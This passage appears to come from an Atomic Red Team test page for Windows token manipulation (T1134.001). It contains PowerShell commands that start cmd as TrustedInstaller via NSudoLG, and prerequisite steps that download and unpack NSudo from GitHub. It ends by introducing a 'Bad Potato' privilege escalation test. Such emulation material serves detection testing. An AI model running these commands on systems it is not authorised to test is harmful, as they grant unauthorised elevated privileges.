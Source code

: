 **Supported Platforms:** Windows


**auto_generated_guid:** 7be1bc0f-d8e5-4345-9333-f5f67d742cb9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nsudo_path | Path to the NSudoLG.exe file | path | PathToAtomicsFolder&#92;T1134.001&#92;bin&#92;NSudoLG.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-Process "#{nsudo_path}" -Argument "-U:T -P:E cmd"
Start-Sleep -Second 5
Stop-Process -Name "cmd" -force -erroraction silentlycontinue
```




#### Dependencies:  Run with `powershell`!
##### Description: NSudoLG.exe must exist in the specified path #{nsudo_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{nsudo_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components.zip" "https://github.com/M2Team/NSudo/releases/download/8.2/NSudo_8.2_All_Components.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components" -Force
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLG.exe" "#{nsudo_path}"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components.zip" -Recurse -ErrorAction Ignore
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\NSudo_8.2_All_Components" -Recurse -ErrorAction Ignore
```




<br/>
<br/>

## Atomic Test #4 - Bad Potato
https://github.com/BeichenDream/BadPotato
Privilege escalation using named pipe connections
